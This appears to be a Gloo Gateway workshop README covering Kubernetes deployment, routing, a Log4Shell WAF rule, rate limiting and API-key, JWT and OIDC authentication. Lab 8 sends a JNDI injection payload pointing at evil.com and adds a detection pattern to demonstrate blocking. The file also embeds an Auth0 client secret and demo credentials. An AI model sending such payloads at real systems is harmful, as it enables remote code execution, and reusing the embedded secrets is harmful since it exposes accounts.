

# <center>Gloo Gateway Workshop</center>

## Table of Contents

* [Introduction](#introduction)
* [Lab 1 - Deploy Kubernetes clusters](#Lab-1)
* [Lab 2 - Deploy Gloo Mesh](#Lab-2)
* [Lab 3 - Deploy Gateway](#Lab-3)
* [Lab 4 - Deploy Online Boutique Sample Application](#Lab-4)
* [Lab 5 - Configure Gloo Mesh](#Lab-5)
* [Lab 6 - Routing](#Lab-6)
* [Lab 7 - GRPC to JSON Transcoding](#Lab-7)
* [Lab 8 - Web Application Firewall](#Lab-8)
* [Lab 9 - Rate Limiting](#Lab-9)
* [Lab 10 - Authentication / API Key](#Lab-10)
* [Lab 11 - Authentication / JWT + JWKS](#Lab-11)
* [Lab 12 - Authentication / OIDC ](#Lab-12)

## Introduction <a name="introduction"></a>


## Begin

To get started with this workshop, clone this repo.

```sh
git clone https://github.com/solo-io/solo-cop.git
cd solo-cop/workshops/gloo-gateway-demo && git checkout v1.1.0
```

Set these environment variables which will be used throughout the workshop.

```sh
# Used to enable Gloo Mesh (please ask for a trail license key)
export GLOO_GATEWAY_LICENSE_KEY=<licence_key>
export GLOO_PLATFORM_VERSION=v2.1.0-beta7
```

## Lab 1 - Configure/Deploy the Kubernete cluster <a name="Lab-1"></a>

```sh
kubectl config use-context <context> 
``` 

## Lab 2 - Deploy Gloo Platform <a name="Lab-2"></a>


1. Download `meshctl` command line tool and add it to your path

```sh
curl -sL https://run.solo.io/meshctl/install | GLOO_MESH_VERSION=${GLOO_PLATFORM_VERSION} sh -

export PATH=$HOME/.gloo-mesh/bin:$PATH
```

```sh
meshctl install --license $GLOO_GATEWAY_LICENSE_KEY --register --version $GLOO_PLATFORM_VERSION
```

## Lab 3 - Deploy Gloo Gateway Using Gloo Platform<a name="Lab-3"></a>


```sh
kubectl create namespace gloo-gateway
kubectl label namespace gloo-gateway istio-injection=enabled
istioctl install --set hub=$ISTIO_IMAGE_REPO --set tag=$ISTIO_IMAGE_TAG  -y  -f install/istio/istiooperator-cluster1.yaml
# kubectl apply -f install/gloo-gateway/install.yaml
```


```sh
kubectl create namespace dev-team
kubectl create namespace ops-team
kubectl create namespace gloo-gateway-addons
kubectl label namespace gloo-gateway-addons istio-injection=enabled

helm repo add gloo-mesh-agent https://storage.googleapis.com/gloo-mesh-enterprise/gloo-mesh-agent
helm repo update

helm upgrade --install gloo-gateway-addons gloo-mesh-agent/gloo-mesh-agent \
  --namespace gloo-gateway-addons \
  --set glooMeshAgent.enabled=false \
  --set rate-limiter.enabled=true \
  --set ext-auth-service.enabled=true \
  --version $GLOO_PLATFORM_VERSION

kubectl apply -f install/gloo-gateway/addons-servers.yaml
```


## Lab 4 - Deploy Online Boutique Sample Application<a name="Lab-4"></a>



1. Deploy the Online Boutique backend microservices to the `backend-apis` namespace.

```sh
kubectl apply -f install/online-boutique/backend-apis.yaml
```

2. Deploy the frontend microservice to the `web-ui` namespace.

```sh
kubectl apply -f install/online-boutique/web-ui.yaml
```

## Lab 5 - Configure Gloo Mesh Workspaces <a name="Lab-5"></a>


```yaml
kubectl apply -f - <<'EOF'
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: ops-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: '*'
    namespaces:
    - name: ops-team     ### Configuration Namespace
    - name: gloo-gateway
    - name: gloo-gateway-addons
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: dev-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: '*'
    namespaces:
    - name: dev-team  ### Configuration Namespace
    - name: web-ui
    - name: backend-apis
EOF
```

3. Apply the settings for each workspace. These `WorkspaceSettings` objects are used to tune each indiviual workspace as well as import/export resources from other workspaces. 

```sh
kubectl apply -f tracks/workspace-settings.yaml
```

The `WorkspaceSettings` custom resource lets each team define the services and gateways that they want other workspaces from other teams to be able to access. This way, you can control the discovery of services in your service mesh and enable each team to access only what they need.

Each workspace can have only one WorkspaceSettings resource.

## Lab 6 - Expose the Online Boutique <a name="Lab-6"></a>

```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        namespace: gloo-gateway
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: ops-team
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ingress
  namespace: ops-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
  workloadSelectors: []
  http:
    - name: dev-team-ingress
      labels:
        ingress: "true"
      delegate:
        routeTables:
        - workspace: dev-team
EOF
```


```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: dev-team
spec:
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /
      name: frontend
      labels:
        route: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
            port:
              number: 80
EOF
```

* Open browser
```
export GLOO_GATEWAY=$(kubectl -n gloo-gateway get svc gloo-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}')
export GLOO_GATEWAY=$GLOO_GATEWAY
printf "\n\nGloo Gateway available at http://$GLOO_GATEWAY\n"
```

## Lab 7 - Routing <a name="Lab-7"></a>


* Exposing a single service 

```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: currency
  namespace: dev-team
spec:
  weight: 100
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /hipstershop.CurrencyService/Convert
      name: frontend
      labels:
        route: currency
      forwardTo:
        destinations:
          - ref:
              name: currencyservice
              namespace: backend-apis
            port:
              number: 7000
EOF
```

```sh
grpcurl --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY hipstershop.CurrencyService/Convert
```

* Request

```json
{
    "from": {
        "currency_code": "USD",
        "nanos": 44637071,
        "units": "31"
    },
    "to_code": "JPY"
}
```

* Response 

```json
{
  "currencyCode": "JPY",
  "units": "3471",
  "nanos": 67780486
}
```


* External endpoint


```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: httpbin
  namespace: dev-team
  labels:
    external-service: httpbin
spec:
  address: httpbin.org
  ports:
    - name: http
      number: 80
    - name: https
      number: 443
---
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: dev-team
spec:
  selector:
    external-service: httpbin
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}   ### upgrade outbound call to HTTPS
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: dev-team
spec:
  weight: 150
  workloadSelectors: []
  http:
    - matchers:
      - uri:
          prefix: /httpbin
      name: frontend
      labels:
        route: httpbin
      forwardTo:
        pathRewrite: /
        destinations:
        - ref:
            name: httpbin
          port: 
            number: 443
          kind: EXTERNAL_SERVICE
EOF
```


```
curl -v $GLOO_GATEWAY/httpbin/get
```


TODO Grpc to json


## Lab 8 - Security <a name="Lab-8"></a>


#### Web Application Firewall (WAF)

Gloo Mesh Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.


2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

3. With the Gloo Mesh WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

  * In the route table, the frontend route has the label `route: httpbin`. The WAF policy applies to routes with this same label.
  * In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!


### 3. Add Rate Limiting

Secondly, we will look at rate limiting with Gloo Mesh Gateway.  The rate limiting feature relies on a rate limit server that has been installed in our gloo-mesh-addons namespace.

For rate limiting, we need to create three CRs.  Let's start with the `RateLimitClientConfig`.

The `RateLimitClientConfig` defines the conditions in the request that will invoke rate limiting.  In this case, we will define a key coming from the header `X-Organization`.

The `RateLimitPolicy` pulls together the `RateLimitClientConfig`, `RateLimitServerConfig` and sets the label selector to use in the `RouteTable`.

* Apply the `RateLimitPolicy`

```yaml
kubectl apply -f - <<'EOF'
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: rate-limit-client-config
  namespace: dev-team
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
---
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: rate-limit-server-config
  namespace: dev-team
spec:
  destinationServers:
  - ref:
      name: rate-limiter
      namespace: gloo-gateway-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3
        unit: MINUTE
      value: counter
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: rate-limit-policy
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin ##### NOTE
  config:
    serverSettings:
      name: rate-limit-server-settings
      namespace: dev-team
    ratelimitClientConfig:
      name: rate-limit-client-config
      namespace: dev-team
    ratelimitServerConfig:
      name: rate-limit-server-config
      namespace: dev-team
    phase:
      preAuthz: { }
EOF
```

* Test Rate Limiting

```sh
for i in {1..6}; do curl -iksS -X GET http://$GLOO_GATEWAY/httpbin/get | tail -n 10; done
```

* Expected Response - If you try the Online Boutique UI you will see a blank page because the rate-limit response is in the headers

```sh
HTTP/2 429
x-envoy-ratelimited: true
date: Sun, 05 Jun 2022 18:50:53 GMT
server: istio-envoy
x-envoy-upstream-service-time: 7
```


### Authentication


```
echo -n "admin" | base64
YWRtaW4=
echo -n "Solo Admin" | base64
U29sbyBBZG1pbg==


echo -n "developer" | base64
ZGV2ZWxvcGVy
echo -n "Solo Developer" | base64
U29sbyBEZXZlbG9wZXI=
```


* API Key
```yaml
kubectl apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: solo-admin
  namespace: dev-team
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  # x-api-key=admin
  api-key: YWRtaW4=
  api-key-user: U29sbyBBZG1pbg==
---
apiVersion: v1
kind: Secret
metadata:
  name: solo-developer
  namespace: dev-team
  labels:
    api-keyset: httpbin-users
type: extauth.solo.io/apikey
data:
  # x-api-key=developer
  api-key: ZGV2ZWxvcGVy
  api-key-user: U29sbyBEZXZlbG9wZXI=
EOF
```

```yaml
kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin-apikey
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin
  config:
    server:
      name: ext-auth-server
      namespace: dev-team
      cluster: mgmt-cluster
    glooAuth:
      configs:
      - apiKeyAuth:
          headerName: x-api-key
          labelSelector:
            api-keyset: httpbin-users
EOF
```

```
curl -v http://$GLOO_GATEWAY/httpbin/get

curl -H "x-api-key: developer" -v http://$GLOO_GATEWAY/httpbin/get

curl -H "x-api-key: admin" -v http://$GLOO_GATEWAY/httpbin/get
```


* JWT Token

```yaml
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: auth0
  namespace: dev-team
  labels:
    external-service: auth0
spec:
  address: dev-64ktibmv.us.auth0.com
  ports:
    - name: https
      number: 443
---
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: auth0
  namespace: dev-team
spec:
  selector:
    external-service: auth0
  hosts:
  - dev-64ktibmv.us.auth0.com
  ports:
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
---
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: curreny
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: currency
  config:
    providers:
      auth0:
        issuer: "https://dev-64ktibmv.us.auth0.com/"
        audiences:
        - "https://httpbin/api"
        remote:
          url: "https://dev-64ktibmv.us.auth0.com/.well-known/jwks.json"
          destinationRef:
            ref:
              name: auth0
              namespace: dev-team
              cluster: mgmt-cluster
            kind: EXTERNAL_SERVICE
            port:
              number: 443
          enableAsyncFetch: true
EOF
```

```sh
ACCESS_TOKEN=$(curl -sS --request POST \
  --url https://dev-64ktibmv.us.auth0.com/oauth/token \
  --header 'content-type: application/json' \
  --data '{"client_id":"1QEVhZ2ERqZOpTQnHChK1TUSKRBduO72","client_secret":"J_vl_qgu0pvudTfGppm_PJcQjkgy-kmy5KRCQDj5XHZbo5eFtxmSbpmqYT5ITv2h","audience":"https://httpbin/api","grant_type":"client_credentials"}' | jq -r '.access_token')

printf "\n\n Access Token: $ACCESS_TOKEN\n"
```

* No Access Token

```sh
grpcurl --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY hipstershop.CurrencyService/Convert
```

```sh
grpcurl -H "Authorization: Bearer ${ACCESS_TOKEN}" --plaintext --proto ./install/online-boutique/online-boutique.proto -d '{ "from": { "currency_code": "USD", "nanos": 44637071, "units": "31" }, "to_code": "JPY" }' $GLOO_GATEWAY hipstershop.CurrencyService/Convert
```


#### External Authorization (OIDC)

Another valuable feature of API gateways is integration into your IdP (Identity Provider). In this section of the lab, we see how Gloo Mesh Gateway can be configured to redirect unauthenticated users via OIDC.  We will use Keycloak as our IdP, but you could use other OIDC-compliant providers in your production clusters.

1. In order for OIDC to work we need to enable HTTPS on our gateway. For this demo, we will create and upload a self-signed certificate which will be used in the gateway for TLS termination.

```sh
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"

kubectl -n gloo-gateway create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt

rm tls.crt tls.key
```

2. Adding HTTPS to our gateway is simple as updating the virtual gateway to use our ssl certificate
```yaml
kubectl apply -f - <<'EOF'
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: mgmt-cluster
        namespace: gloo-gateway
  listeners:
    - http: {}
      port:
        number: 80
      httpsRedirect: true
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret # NOTE
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: ops-team
EOF
```

3. Test out the new HTTPS endpoint (you may need to allow insecure traffic in your browser. Chrome: Advanced -> Proceed)

```sh
echo "Secure Online Boutique URL: https://$GLOO_GATEWAY"
```

4. Finally, we need to deploy our OIDC server keycloak. We provided you with a script to deploy and configure keycloak for our workshop. 

* Deploy and configure Keycloak

* Deploy Keycloak

```sh
./install/keycloak/setup.sh
```

Get the keycloak URL and Client ID.

```sh
export KEYCLOAK_CLIENTID=$(kubectl get configmap -n gloo-mesh keycloak-info -o json | jq -r '.data."client-id"')
export KEYCLOAK_URL=http://$(kubectl -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9000/auth

printf "\n\nKeycloak OIDC ClientID: $KEYCLOAK_CLIENTID\n\nKeycloak URL: $KEYCLOAK_URL\n"
```

The `ExtAuthPolicy` defines the provider connectivity including any callback paths that we need to configure on our application.

* View the `ExtAuthPolicy` with environment variables replaced.

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh
```

* Apply the `ExtAuthPolicy`

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh | kubectl apply -n dev-team -f -
```

Now if you refresh the application, you should be redirected to Keycloak to login.

* Login using the following credentials

```sh
user: gloo-mesh
password: solo.io
```

And the application is now accessible.


* When you are finished, click the 'logout' button in the top right corner of the screen.